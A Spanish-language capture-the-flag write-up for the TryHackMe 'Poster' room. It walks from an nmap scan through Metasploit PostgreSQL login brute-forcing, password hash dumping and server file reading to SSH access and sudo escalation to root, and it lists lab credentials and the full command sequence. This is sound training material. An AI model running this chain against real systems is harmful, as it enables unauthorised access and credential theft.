# Write-up Poster

## Enumeración

### Escaneo inicial

Empiezo con `nmap` para ver puertos, servicios y versiones:

`nmap -sC -sV -O -T4 IP`

Puertos encontrados:

- 22/tcp SSH
- 23/tcp Telnet
- 80/tcp HTTP - Apache 2.4.18
- 5432/tcp PostgreSQL - 9.5.8

## Explotación

### Uso de Metasploit contra PostgreSQL

En esta ocasión, la room nos pide usar `metasploit`.

Primero inicializo la base de datos:

`sudo msfdb init`

Luego abro la consola:

`msfconsole -q`

Lo más llamativo del escaneo es la base de datos PostgreSQL, así que busco un módulo para probar credenciales:

`search type:auxiliary postgres`



Elijo el modulo:

`scanner/postgres/postgres_login`

Le asigno el objetivo:

`set RHOSTS IP`

El puerto por defecto ya es el `5432`, así que no hace falta cambiarlo.

Lanzo el modulo:

`run`

Y obtiene las credenciales:

- Usuario: `postgres`
- Password: `password`
- Database: `template1`



### Consulta de la base de datos

Con esas credenciales, uso el módulo `auxiliary/admin/postgres/postgres_sql` para comprobar si puedo ejecutar consultas en la base de datos.

Hay que configurar:

- `DATABASE`: `template1`
- `USERNAME`: `postgres`
- `PASSWORD`: `password`



Ejecuto:

`run`

Y obtengo la versión exacta de PostgreSQL:

`9.5.21`



### Obtención de hashes

Ahora compruebo si puedo volcar hashes de usuarios con:

`scanner/postgres/postgres_hashdump`

Debo configurar los mismos valores: `database`, `username` y `password`.

Lanzo:

`run`

Y me devuelve los hashes encontrados en la base de datos:

- `darkstart` - `md58842b99375db43e9fdf238753623a27d`
- `poster` - `md578fb805c7412ae597b399844a54cce0a`
- `postgres` - `md532e12f215ba27cb750c9e093ce4b5127`
- `sistemas` - `md5f7dbc0d5a06653e74da6b1af9290ee2b`
- `ti` - `md57af9ac4c593e9e4f275576e13f935579`
- `tryhackme` - `md503aab1165001c8f8ccae31a8824efddc`



### Lectura de archivos desde PostgreSQL

Uso el módulo `auxiliary/admin/postgres/postgres_readfile` para buscar archivos interesantes.

Encuentro un archivo llamado `credentials.txt` en la ruta:

`/home/dark/credentials.txt`



Para leerlo, configuro:

`set RFILE /home/dark/credentials.txt`

Y ejecuto:

`run`

Obtengo las credenciales del usuario `dark`:

- Usuario: `dark`
- Password: `qwerty1234#!hackme`



### Acceso inicial por SSH

Con esas credenciales, me conecto por SSH:

`ssh dark@IP`



## Post-explotación

### Revisión de archivos interesantes

Tras inspeccionar varios directorios, encuentro en `/var/www/html` el archivo:

`config.php`

Al leerlo, aparecen unas credenciales que parecen pertenecer al usuario `alison`:

- `$dbhost = "127.0.0.1";`
- `$dbuname = "alison";`
- `$dbpass = "p4ssw0rdS3cur3!#";`
- `$dbname = "mysudopassword";`



## Escalado de privilegios

### Pivoting al usuario `alison`

Pruebo a cambiar de usuario con:

`su alison`

Introduzco la password encontrada:

`p4ssw0rdS3cur3!#`

Y accedo correctamente como `alison`.



### Comprobación de permisos sudo

Reviso privilegios con:

`sudo -l`

Compruebo que `alison` tiene permisos:

`(ALL : ALL) ALL`

Así que puedo convertirme en `root` con:

`sudo su`



## Resultado

Consigo acceso total a la máquina aprovechando credenciales de PostgreSQL obtenidas con `metasploit`, después recupero un archivo con credenciales del usuario `dark`, y finalmente encuentro en `config.php` una password reutilizada que me permite pivotar a `alison` y escalar hasta `root` mediante `sudo`.

## Resumen de comandos hasta root

- `nmap -sC -sV -O -T4 IP`
- `sudo msfdb init`
- `msfconsole -q`
- `search type:auxiliary postgres`
- `use scanner/postgres/postgres_login`
- `set RHOSTS IP`
- `run`
- `use auxiliary/admin/postgres/postgres_sql`
- `set DATABASE template1`
- `set USERNAME postgres`
- `set PASSWORD password`
- `run`
- `use scanner/postgres/postgres_hashdump`
- `set DATABASE template1`
- `set USERNAME postgres`
- `set PASSWORD password`
- `run`
- `use auxiliary/admin/postgres/postgres_readfile`
- `set DATABASE template1`
- `set USERNAME postgres`
- `set PASSWORD password`
- `set RFILE /home/dark/credentials.txt`
- `run`
- `ssh dark@IP`
- `cat /var/www/html/config.php`
- `su alison`
- `sudo -l`
- `sudo su`
